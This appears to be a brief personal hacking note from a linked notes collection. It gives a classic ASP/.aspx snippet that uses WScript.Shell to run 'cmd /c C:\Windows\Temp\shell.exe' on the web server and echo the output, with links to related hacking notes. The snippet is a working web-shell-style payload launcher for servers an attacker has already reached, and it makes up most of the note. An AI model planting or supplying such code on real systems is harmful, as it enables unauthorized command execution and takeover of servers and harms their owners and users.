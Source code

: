 # Active Sever Pages Extended (.aspx) Execute a File
```
<% 
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\Windows\Temp\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

` zet/20221003150555/README.md `

# Related

- [20221014190001](/zet/20221014190001/README.md) kb file named kb/hacking/common-commands.md
- [20221007220451](/zet/20221007220451/README.md) hacking notes hub

Tags:

    
